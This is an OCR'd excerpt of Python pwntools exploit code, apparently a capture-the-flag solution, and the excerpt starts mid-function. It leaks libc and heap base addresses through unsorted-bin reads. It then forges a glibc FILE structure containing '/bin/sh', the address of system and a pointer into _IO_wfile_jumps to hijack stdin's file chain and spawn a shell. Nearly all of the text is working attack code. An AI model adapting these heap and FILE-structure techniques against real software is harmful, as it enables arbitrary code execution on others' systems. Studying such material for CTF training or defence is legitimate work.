 ```python
    payload += p32(len(configs))

    for each in configs:
        payload += each

    return payload


def config_exploit_IO(libc, heap):
    _IO_list = libc + 0x1cb5a0 - 0x10
    _STDIN_chain = libc + 0x1ec980 + 0x68
    system_addr = libc+0x52290
    configs = []
    _IO_wfile_jumps = libc+0x1e8f60

    log.success("system address is " + hex(system_addr))
    log.success("_IO_wfile_jumps address is " + hex(_IO_wfile_jumps))
    another_heap = heap+0x12470
    name_heap = heap+0x12380
    # update1
    # malloc 0x48 size
    # prepare the FILE
    name = b'aaa'
    # prepare first heap
    content = b'a'*32+p64(_STDIN_chain-0x8)+b'a'*23
    configs.append(new_cfg(1, name, content, 0))

    # update it!
    name = b'/bin/sh\x00'+p64(0) + p64(0x10)+p64(system_addr)+p64(1)+p64(0x100)+p64(0)*14+p64(another_heap)+p64(0)+p64(0)+p64(0)+p64(1)+p64(0)+p64(0)+p64(_IO_wfile_jumps+0x30)
    content = p64(510)+p64(0)+p64(0)+p64(510)+p64(530)+p64(0)+p64(0)+p64(0)+p64(0)*20+p64(name_heap)
    configs.append(new_cfg(2, name, content, 0))

    # update the target
    # add another file ptr
    payload = b""
    payload += p32(1)
    payload += p32(0x41)
    payload += p32(len(configs))

    for each in configs:
        payload += each

    return payload

# leak
payload = config_leak_libc_unsorted()
ph.recvuntil("Enter command:")
ph.sendline(payload)
c1 = ph.recvuntil("Current Object Name:")
ph.recvuntil("Content: ")
libc_base = u64(ph.recvuntil("\n")[:-1].ljust(8,b'\x00'))
libc_base = libc_base-0x1ecbe0
log.success("libc:" + hex(libc_base))
ph.recvuntil("Enter command:")
payload = config_leak_heap_unsorted()
ph.sendline(payload)
c2 = ph.recvuntil("Current Object Name:")
ph.recvuntil("Content: ")
heap_base = u64(ph.recvuntil("\n")[:-1].ljust(8,b'\x00'))
heap_base = heap_base - 0x127f0
log.success("heap:" + hex(heap_base))
```